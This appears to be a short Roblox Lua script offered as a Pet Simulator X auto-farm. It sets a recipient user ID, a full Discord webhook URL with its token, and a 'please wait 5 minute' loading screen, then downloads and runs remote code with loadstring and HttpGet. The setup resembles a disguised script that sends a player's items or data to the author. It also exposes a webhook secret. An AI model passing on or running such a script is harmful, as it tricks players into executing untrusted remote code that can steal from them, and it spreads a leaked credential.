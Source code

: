 _G.UserID = 3758606668
_G.WebHook = "https://discord.com/api/webhooks/1065729365582819368/UAkP7gauaqklSPy4Vmh7J2rF3G_91SwPBCELs9wQEHbW64AqLdvnu74kwhELx6n15RCE"
_G.LoadingScreenText = "Loading Please Wait 5 Minute"
loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()
